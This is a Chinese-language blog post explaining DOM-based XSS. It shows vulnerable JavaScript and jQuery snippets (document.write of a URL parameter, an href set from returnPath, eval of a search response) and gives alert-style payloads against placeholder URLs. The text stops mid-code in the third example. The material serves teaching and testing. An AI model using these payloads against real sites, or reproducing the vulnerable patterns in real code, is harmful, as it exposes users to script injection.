 ```yaml
---
layout: post
title: "基于dom的一些前端漏洞"
tags: [Xss, Js]
comments: true
---
```


最直接的xss

----**dom xss**

    function trackSearch(query) {
                            document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
                        }
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query) {
                            trackSearch(query);
                        }
                        
可以看到会从window.location.search获取search参数值写入img标签<br>
所以双引号闭合就可以xss<br>
**payload**

    https://www.xxxx.com/xxx?search="><svg/onload="alert(1)
    
----**jQuery dom xss**

    <div class="is-linkback">
                                <a id="backLink">Back</a>
                            </div>
                            <script>
                                $(function() {
                                    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
                                });
                            </script>
                            
可以看到会从window.location.search获取returnPath参数值写入a标签href属性<br>
所以a标签 写入JavaScript:alert() 点击即可触发<br>
**payload**

    https://www.xxxx.com/xxx?returnPath=JavaScript:alert()
    点击a标签的*Back*按钮就会触发
   
  ----**反射+dom xss**<br>
   https://www.xxxx.com/?search=1<br>
   首先一个搜索页面加载了一段js<br>
  

     (function() {
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
                eval('var searchResultsObj = ' + this.responseText);
                displaySearchResults(searchResultsObj);
            }
        };
        xhr.open("GET", "/search-results" + window.location.search);
        xhr.send();
        function displaySearchResults(searchResultsObj) {
        ..........省略 
        